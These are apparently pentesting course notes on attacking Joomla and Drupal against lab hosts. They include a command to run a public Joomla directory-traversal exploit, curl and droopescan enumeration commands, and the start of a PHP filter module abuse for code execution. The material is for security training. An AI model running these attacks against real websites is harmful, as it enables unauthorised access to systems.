 ### Leveraging Known Vulnerabilities

#### Attacking Joomla 3.9.4 CVE-2019-10945 using [joomla_dir_trav.py](https://www.exploit-db.com/exploits/46710)
```Shell
python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
```


## Drupal - Discovery & Enumeration

### Discovery
- Header or Footer message "`Powered by Drupal`"
- `CHANGELOG.txt` file
- `README.txt` file
- nodes: URIs are usually of the form `/node/<nodeid>`

#### Using cURL to determine if Drupal is the CMS in use
```Shell
curl -s http://drupal.inlanefreight.local | grep Drupal
```

### Enumeration

#### Enumerating the version number using the `CHANGELOG.txt` file
```Shell
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

```Shell
curl -s http://drupal.inlanefreight.local/CHANGELOG.txt
```

#### Scanning Drupal using `droopescan`
```Shell
droopescan scan drupal -u http://drupal.inlanefreight.local
```

## Attacking Drupal

### Leveraging the PHP Filter Module

#### In ==older versions of Drupal (before version 8)==, it was possible to log in as an admin and enable the `PHP filter` module
![[Pasted image 20230220114301.png]]

#### Tick the check box next to the module and scroll down to `Save configuration`. Then go to Content --> Add content and create a `Basic page`
![[Pasted image 20230220114445.png]]
